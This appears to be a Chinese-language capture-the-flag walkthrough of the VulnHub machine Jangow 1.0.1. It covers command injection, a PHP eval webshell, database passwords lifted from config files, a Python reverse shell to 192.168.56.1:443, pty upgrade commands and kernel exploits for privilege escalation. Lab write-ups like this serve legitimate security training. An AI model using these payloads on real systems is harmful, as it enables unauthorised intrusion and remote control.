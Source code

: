 [https://www.vulnhub.com/entry/jangow-101,754/](https://www.vulnhub.com/entry/jangow-101,754/)

xray扫描得知存在命令执行

```
[Vuln: cmd-injection]
Target           "http://192.168.56.118/site/busque.php?buscar="
VulnType         "injection/cmd"
Payload          "\nexpr 924417132 + 879096350\n"
Position         "query"
ParamKey         "buscar"
ParamValue       "\nexpr 924417132 + 879096350\n"
feature          "1803513482"
type             "echo_based"
```

写入webshell,`echo '<?php eval($_POST[a]);?>' > a.php`,权限为`www-data`

`/var/www/html/.backup`

```php
$servername = "localhost";
$database = "jangow01";
$username = "jangow01";
$password = "abygurl69";
// Create connection
$conn = mysqli_connect($servername, $username, $password, $database);
// Check connection
if (!$conn) {
    die("Connection failed: " . mysqli_connect_error());
}
echo "Connected successfully";
mysqli_close($conn);
```

`/var/www/html/site/wordpress/config.php`

```php
<?php
$servername = "localhost";
$database = "desafio02";
$username = "desafio02";
$password = "abygurl69";
// Create connection
$conn = mysqli_connect($servername, $username, $password, $database);
// Check connection
if (!$conn) {
    die("Connection failed: " . mysqli_connect_error());
}
echo "Connected successfully";
mysqli_close($conn);
?>
```

但用户名和密码均不正确...

`/home/jangow01/user.txt`

```
d41d8cd98f00b204e9800998ecf8427e
```

cmd5反查得知其为空字符的md5

反弹shell,发现存在端口限制,试了试80,443等常用端口,发现443端口不受影响

```python
import socket
import subprocess
import os
ip="192.168.56.1"
port=443
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect((ip,port));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);
```

尝试切换用户`jangow01`,返回`su: must be run from a terminal`,需要将反弹回来的shell转换为交互式的shell

1. `python3 -c 'import pty;pty.spawn("/bin/bash")'`

2. `python3 -c "__import__('subprocess').call(['/bin/bash'])"`

建议使用第一种方法,成功利用密码`abygurl69`切换到用户`jangow01`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202112021941801.png)

靶机环境为`ubuntu16.04`,直接用`CVE-2021-3156`尝试提权,提示`AssertionError: glibc is too old. The exploit is relied on glibc tcache feature. Need version >= 2.26`

换个`CVE-2016-5195`,好像宕机了qwq,在真实渗透环境已经gg了...

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202112021927760.png)

尝试用`CVE-2017-16995`提权,成功提权

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202112022112151.png)

ufw配置情况

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202112022120567.png)
